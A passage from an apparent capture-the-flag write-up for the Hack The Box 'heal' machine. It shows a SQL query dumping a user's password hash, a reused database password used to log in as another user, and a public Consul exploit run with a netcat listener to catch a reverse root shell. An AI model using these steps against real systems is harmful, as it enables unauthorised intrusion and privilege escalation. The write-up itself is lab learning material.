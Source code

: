 ```sql
select uid, users_name, password from lime_users;
-- use \dt for table listing.
 
uid | users_name |                           password
-----+------------+--------------------------------------------------------------
   1 | ralph      | $2y$10$qMS2Rbu5NXKCPI5i6rjQPexhhJk33kv3KNt4uNjJ5XEvV9hv.om/C
```

I tried cracking this and it toooook a loonnnnnggg time. I moved on seeing how many users exsit on the system, found ron and ralph. \
Tried the database password with both the users and it worked for ron! (didn't liked this tbh, guessy as hell)

## Root shell

once we login as ron, \
we can see the current process with `ps -ef --forest` and notice that it's running `consul` (by hashicorp) on port 8500.

Quick googling can get us to following exploit :&#x20;

{% embed url="https://www.exploit-db.com/exploits/51117" %}

#### Exploit

```bash
python3 exploit_root.py 127.0.0.1 8500 127.0.0.1 9001 give_any_value
```

The acl token is a required argument (as per the script) but is not imp as we dont really use that to register. It's only used in Header.&#x20;

```
heap@dragon:~/stuff/HTB/heal$ rlwrap nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.46 50732
bash: cannot set terminal process group (22584): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# id
uid=0(root) gid=0(root) groups=0(root)
root@heal:/#

```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heabytes' still pwning
